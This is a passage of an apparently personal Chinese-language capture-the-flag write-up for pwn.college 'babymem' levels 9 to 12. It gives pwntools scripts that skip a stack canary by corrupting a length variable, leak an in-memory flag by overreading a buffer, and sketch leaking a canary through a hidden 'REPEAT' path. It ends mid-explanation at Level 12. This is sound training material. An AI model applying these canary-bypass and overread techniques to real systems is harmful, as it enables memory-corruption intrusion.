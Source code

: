 That being said, you *do* need to be careful on the sending side: don't send
the bytes that you're effectively skipping!

跳转地址：0x15bf

从这一题开始canary就不再禁用了，也就是说不能像之前的题目一样直接写buffer了。这一题给我们提供了一种跳过canary 的简单方式，就是用上面的变量`n`，通过改变n的值就可以直接跳到canary之后。
`n`的位置：0x8074，返回地址的位置：0x8088
因此可以先写入20字节空，在第21字节将`n`修改为40(0x24)，即可修改地址为跳转地址。
```python
import pwn
r = pwn.process("/challenge/babymem_level9.0")
r.sendline("42")
r.send(b'\x00' * 20 + b'\x27' + b'\xbf\x15')
# r.interactive()
print(r.readall())
```

#### Level 10
In this level, the flag will be loaded into memory.
However, at no point will this program actually print the buffer storing the flag.
这一题很有意思，题目说flag已经在内存里了，而且存在buffer后108字节的位置，但是不会有任何函数会打印flag，但是会打印我们插入的内容。所以我们只需要将空字节全部填充（包括最后的null termination）即可将flag一起打印出来。
```python
import pwn
r = pwn.process("/challenge/babymem_level10.0")
r.sendline("108")
r.sendline(b'\xaa' * 108)
r.interactive()
```

#### Level 11
这一题flag同样会被存入内存，但是输入buffer会被映射到页中。buffer到flag共32768字节。按上一题的方法即可得到flag。
```python
import pwn
r = pwn.process("/challenge/babymem_level11.0")
r.sendline("32768")
r.sendline(b'\xaa' * 32768)
r.interactive()
```

#### Level 12
That means that you will need to input at least 80 bytes (51 to fill the buffer,
21 to fill other stuff stored between the buffer and the return address,
and 8 that will overwrite the return address).
Because the binary is position independent, you cannot know
exactly where the win_authed() function is located.
This means that it is not clear what should be written into the return address.
This challenge has a trick hidden in its code. Reverse-engineer the binary right after this puts(), call to see the hidden backdoor!
题目说这一题有个后门，查看源码后看到在这个puts()后面确实有一个：
```C
iVar3 = strstr(buf, "REPEAT");
if (iVar3 == 0) {
	puts("Goodbye!");
	uVar2 = 0;
} else {
	puts();
	uVar2 = challenge((uint64_t)(uint32_t)var_64h, var_70h, var_78h);
}
```
意思是说，如果输入buffer中有REPEAT这个字符串，就会重新进入challenge，而第二次进入挑战时canary是不变的，所以我们就可以第一次输入REPEAT获得canary，第二次直接覆盖。
这题可把我坑了半天，原因就是一个小小的p64()，
```python
from pwn import *
```